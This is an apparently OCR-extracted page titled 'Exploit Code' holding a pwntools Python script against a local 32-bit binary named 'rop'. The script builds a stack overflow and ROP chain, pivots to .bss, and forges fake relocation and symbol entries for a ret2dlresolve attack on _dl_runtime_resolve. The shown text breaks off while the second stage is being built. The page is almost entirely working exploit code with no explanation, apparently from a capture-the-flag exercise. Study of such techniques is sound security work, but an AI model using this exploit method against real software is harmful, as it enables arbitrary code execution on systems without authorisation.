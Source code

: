 ## **Exploit Code**
```python
// Exploit Code
from pwn import *

elf = ELF('./rop')
context.log_level='info'

# get section address
addr_dynsym     = elf.get_section_by_name('.dynsym').header['sh_addr']
addr_dynstr     = elf.get_section_by_name('.dynstr').header['sh_addr']
addr_relplt     = elf.get_section_by_name('.rel.plt').header['sh_addr']
addr_plt        = elf.get_section_by_name('.plt').header['sh_addr']
addr_bss        = elf.get_section_by_name('.bss').header['sh_addr']
addr_plt_read   = elf.plt['read']
addr_got_read   = elf.got['read']

log.info('.dynsym  : ' + hex(addr_dynsym))
log.info('.dynstr  : ' + hex(addr_dynstr))
log.info('.rel.plt : ' + hex(addr_relplt))
log.info('.plt     : ' + hex(addr_plt))
log.info('.bss     : ' + hex(addr_bss))
log.info('read@plt : ' + hex(addr_plt_read))
log.info('read@got : ' + hex(addr_got_read))

addr_pop3 = 0x80484e9
addr_pop_ebp = 0x080484eb
addr_leave_ret = 0x08048458

stack_size = 0x300
base_stage = addr_bss + stack_size

# read(0,base_stage,100)
buf1 = "A"*62
buf1 += p32(addr_plt_read)
buf1 += p32(addr_pop3)
buf1 += p32(0)
buf1 += p32(base_stage)
buf1 += p32(100)
buf1 += p32(addr_pop_ebp)
buf1 += p32(base_stage)
buf1 += p32(addr_leave_ret)

addr_fake_reloc = base_stage + 20
addr_fake_sym = addr_fake_reloc + 8
addr_fake_symstr = addr_fake_sym + 16
addr_fake_cmd = addr_fake_symstr + 7

fake_reloc_offset = addr_fake_reloc - addr_relplt 
fake_r_info = ((addr_fake_sym - addr_dynsym)*16) & ~0xFF  # Fake ELF32_R_SYM
fake_r_info = fake_r_info | 0x7       # Fake ELF32_R_TYPE 
fake_st_name = addr_fake_symstr - addr_dynstr


log.info('fake_reloc_offset : ' + hex(fake_reloc_offset))
log.info('fake_r_info       : ' + hex(fake_r_info))
log.info('fake_st_name      : ' + hex(fake_st_name))

# .bss
# _dl_runtime_resolve(struct link_map *l, fake_reloc_offset)
buf2 = 'AAAA'
buf2 += p32(addr_plt)
buf2 += p32(fake_reloc_offset)
```